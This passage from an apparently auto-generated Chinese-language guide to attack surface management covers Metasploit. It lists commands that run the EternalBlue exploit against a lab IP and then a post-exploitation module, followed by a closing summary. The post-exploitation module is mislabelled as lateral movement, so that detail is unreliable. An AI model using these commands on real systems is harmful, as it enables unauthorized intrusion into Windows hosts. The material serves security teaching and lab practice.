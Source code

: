 ### 5.3 Metasploit

Metasploit是一个渗透测试框架，用于漏洞利用和横向移动。

```bash
# 启动Metasploit控制台
msfconsole

# 使用EternalBlue漏洞利用模块
use exploit/windows/smb/ms17_010_eternalblue

# 设置目标主机
set RHOSTS 192.168.1.100

# 执行漏洞利用
exploit

# 使用横向移动模块
use post/windows/manage/migrate

# 设置会话ID
set SESSION 1

# 执行横向移动
run
```

## 6. 总结

攻击面管理系统是组织安全管理的重要组成部分，通过资产发现、风险评估和持续监控，帮助组织有效管理其攻击面，减少被攻击的风险。本文详细介绍了ASM的基本原理、类型、危害，以及攻击步骤和实验环境搭建指南，并提供了实际命令、代码和工具的使用说明，希望能为读者提供实用的参考。

---

*文档生成时间: 2025-03-17 12:22:03*
